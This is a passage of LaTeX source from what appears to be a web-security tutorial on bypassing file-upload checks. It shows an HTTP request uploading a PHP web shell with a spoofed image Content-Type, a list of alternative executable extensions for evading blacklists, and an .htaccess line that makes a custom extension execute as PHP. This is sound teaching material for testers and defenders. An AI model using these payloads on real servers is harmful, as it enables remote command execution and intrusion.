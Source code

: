 \documentclass[11pt]{article}
\begin{document}
Many applications only check the part-specific \texttt{Content-Type} header in the multipart body, trusting it implicitly. Since this header is entirely attacker-controlled, changing it in Burp Repeater is often enough:

\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}

Here the extension is still \texttt{.php}, but the declared \texttt{Content-Type} claims \texttt{image/jpeg}. If the server only checks this header and not the real bytes or extension mapping, the upload succeeds and the file may still be executed when requested.

\subsection{Insufficient extension blacklisting}

Blacklists are inherently incomplete. PayloadsAllTheThings lists many alternative executable extensions worth trying when \texttt{.php} itself is blocked, for example: \texttt{.php3}, \texttt{.php4}, \texttt{.php5}, \texttt{.php7}, \texttt{.pht}, \texttt{.phtml}, \texttt{.phar}, \texttt{.phpt}, \texttt{.pgif}, and \texttt{.inc} for PHP stacks, or \texttt{.asa}, \texttt{.cer}, \texttt{.config}, \texttt{.asax} for older IIS/ASP stacks.


\textbf{Overriding server configuration.} If you can upload a malicious \texttt{.htaccess} file into an Apache-served directory, you can map an arbitrary extension to an executable MIME type:
\begin{lstlisting}
AddType application/x-httpd-php .rce
\end{lstlisting}
Any file subsequently uploaded with a \texttt{.rce} extension will then be executed as PHP by that directory.
 
\end{document}
